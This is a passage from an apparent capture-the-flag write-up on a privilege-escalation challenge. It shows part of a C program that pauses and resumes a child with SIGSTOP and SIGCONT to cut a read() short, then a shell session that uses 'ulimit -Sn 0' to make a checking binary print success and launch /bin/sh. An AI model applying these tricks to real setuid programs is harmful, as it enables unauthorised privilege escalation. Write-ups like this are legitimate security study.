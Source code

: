 ```python
              printf("program execution successful\n");
              
            else if (WIFEXITED(status) && WEXITSTATUS(status)) {
                if (WEXITSTATUS(status) == 127) {
  
                    printf("execv failed\n");
                }
                else 
                    printf("program terminated normally,"
                       " but returned a non-zero status\n");                
            }
            else 
               printf("program didn't terminate normally\n");            
        } 
        else {
           printf("waitpid() failed\n");
        }
      exit(0);
   }
   return 0;
}

```


```python
kkameleon@ecaille ~/draft/fcsc/misc % ./runnner 3
Parent Of parent process, pid = 385054
parent process, pid = 387321
child: 387322
sleeping
3
sending SIGSTOP
want to read 268435456 bytes
actually read 217548 bytes
sending SIGCONT
muahah... read() terminated early :)
Ok, well done
program didn't terminate normally

```

It was working relatively fine with a huge amount of bytes, but I didn't manage to decrease enough the number of bytes read so I gave up this way of doing things.
In my researches to write these code, I found other interesting things I wasn't aware of. It appeared that I could limit the size of the stack and of many others things like the number of open file descriptors for my session by using ulimit in bash et setrlimit in c.

I start messing around with the programm, and by doing ulimit -n 0, the programm stage1 was display "Ok Well Done"


```python
challenger@privescme:~$ ulimit -Sn 0
challenger@privescme:~$ cd stage1
challenger@privescme:~/stage1$ ./stage1 /dev/z /bin/sh
-bash: start_pipeline: pgrp pipe: Too many open files
Ok, well done
/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24
challenger@privescme:~/stage1$ 
```
